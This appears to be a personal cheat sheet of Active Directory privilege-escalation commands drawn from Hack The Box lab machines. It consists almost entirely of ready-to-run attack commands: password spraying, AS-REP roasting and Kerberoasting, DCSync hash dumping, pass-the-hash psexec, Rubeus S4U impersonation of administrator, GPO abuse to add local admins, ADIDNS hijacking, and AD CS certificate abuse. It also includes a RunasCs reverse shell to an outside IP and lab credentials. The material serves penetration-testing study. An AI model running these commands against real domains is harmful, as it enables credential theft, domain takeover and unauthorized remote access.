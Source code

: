 # AD PrivEsc

dc-ip you aclly gotta add the dc dns name too to hosts eg. dc.manager.htb or sum

printer config -> return \[easy]

krbrelayx, so many relays in impacket itself \[ntlmrelayx]

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet" %}

<div align="left"><figure><img src="../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure></div>

### Bloodhound

```
./SharpHound.exe --CollectionMethod All
bloodhound-python -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' -d frizz.htb -dc frizzdc.frizz.htb -ns 10.10.11.60 -c all
```

#### SharpGPOAbuse - Modify Group Policy Objects

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName whatever
gpupdate /force
```

#### RunAs - Sudo for Windows

```
.\RunasCs.exe "M.SchoolBus" '!suBcig@MehTed!R' powershell.exe -r 10.10.14.2:9001
```

#### gMSADumper - Reads any gMSA password blobs the user can access

```
python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb
```

#### pyLAPS - Read LAPS if user has the privilege

```
python3 pyLAPS.py --action get -d "timelapse.htb" -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

### Rubeus

```
.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
.\Rubeus.exe klist
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\Programdata\cert.pfx
```

## Kerberos

```
./kerbrute_linux_amd64 passwordspray -d FRIZZ.HTB ~/htb/rooms/frizz/output.txt '!suBcig@MehTed!R' --dc 'FRIZZDC.FRIZZ.HTB'
./kerbrute_linux_amd64 userenum -d egotistical-bank.local  ~/htb/sauna/newuser.txt --dc egotistical-bank.local -v | grep 'VALID' 
```

#### DNSTool \[krbrelayx] - Edit  ADIDNS (AD Integrated DNS)

Regular users create child objects by default, attackers can leverage that and hijack traffic - no need to be DNS Admin for this

```
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 --action add --record web-0xdf --data 10.10.14.2 --type A 10.10.10.248
```

### Impacket

#### GetNPUsers - ASREP Roasting for users with no pre-auth

```
python3 GetNPUsers.py [domain]/ -dc-ip [ip] -usersfile userlist.txt
./GetNPUsers.py -no-pass -dc-ip [ip] -request '[domain]/[user]'
```

#### GetUserSPN - find Service Principal Names that are associated with normal user account

```
python3 GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] 
python3 GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] -request <get ticket here>
```

#### SecretsDump - Dump admin hashes if DCSync privileges enabled

```
sudo python3 secretsdump.py [domain]/[user]@[ip]
```

#### getTGT - request a TGT and save it as ccache

```
python3 getTGT.py -dc-ip [ip] [domain]/'[user]':'[password]'
```

#### getST - request a Service Ticket and save it as ccache

```
python3 getST.py -spn [SPN] [-impersonate administrator] -hashes [hash] -dc-ip [ip] [domain]/[user]
```

#### PSexec - Semi shell that writes to $ADMIN share

```
export KRB5CCNAME=ticket.ccache; python3 psexec.py [domain]/[user]@[dc_domain] -k -no-pass
python3 psexec.py -hashes [hash] [user]@[ip] cmd.exe 
```

{% embed url="https://medium.com/@allypetitt/windows-remoting-difference-between-psexec-wmiexec-atexec-exec-bf7d1edb5986" %}

#### TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files and vice-versa

```
base64 -d ticket.kirbi.b64 > ticket.kirbi
./ticketConverter.py ticket.kirbi ticket.ccache
```

### AD CS (Certificate Service)

```
certipy-ad find -dc-ip [ip] -ns [ip] -u [user]@[domain] -p '[password]' -vulnerable -stdout
nxc ldap "domain_controller" -d "domain" -u "user" -p "password" -M adcs
.\Certify.exe find /vulnerable
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
